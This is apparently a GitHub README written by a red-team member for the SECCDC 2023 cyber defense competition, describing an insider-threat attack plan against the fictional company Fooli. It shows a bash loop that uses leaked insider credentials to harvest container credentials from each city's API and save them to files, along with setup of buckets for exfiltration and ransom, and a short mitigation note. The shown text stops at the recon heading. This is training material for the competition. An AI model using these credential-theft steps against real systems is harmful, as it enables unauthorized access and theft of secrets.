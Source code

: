# seccdc2023-Fooli-Attack

This repo documents the attack plan as (planned) executed against Fooli during the SECCDC Regional Competition.

As a refresher, I was framed, arrested, and escaped custody during the competition welcome ceremonies.
At that point, I went from the CTO of Fooli, to an ex-insider threat. As the primary architect of the meme-factory, I knew all of the technical debt, vulnerabilities, back-doors and misconfigurations.


Through out the competition, all IAM activity should have come from 184.72.85.110 IP address. This was a Tailscale node I egress all my attacker traffic from. The machine I used for all red-team activity was on KSU Wireless, not on the competition network. Unless other members of redteam, I didn't need to come from the scoring machine.

# Wednesday

Wednesday began with the shocking revelation that Farris (the CTO) was arrested for possession of Classified Memes. Farris escaped, fled to Paraguay, and proclaimed his innocence and accused Dr. Green of framing him.

To support his CTO lifestyle, Farris began to conduct operations against Fooli.

## Pre-show work

In the Red Team account, create the needed buckets:
```bash
./scripts/mk_team_ransom_buckets.sh payments-exfiltration
./scripts/mk_team_ransom_buckets.sh recon
./scripts/mk_team_ransom_buckets.sh customer-dumps
```

## 10:00 Wednesday

### Initial Access - Exfiltrate Credentials using my credentials. (held till green said go)

```bash
for city in `cat cities.txt` ; do
	echo $city
	./scripts/leverage_creds_api.py --url fooli-api.$city.fooli.wtf --username chris --password dexxa > $city-container-creds.env
done
```

**Mitigation:** If you had removed my access I wouldn't have been able to use the _application_ credentials to conduct this attack.

### Conduct Recon
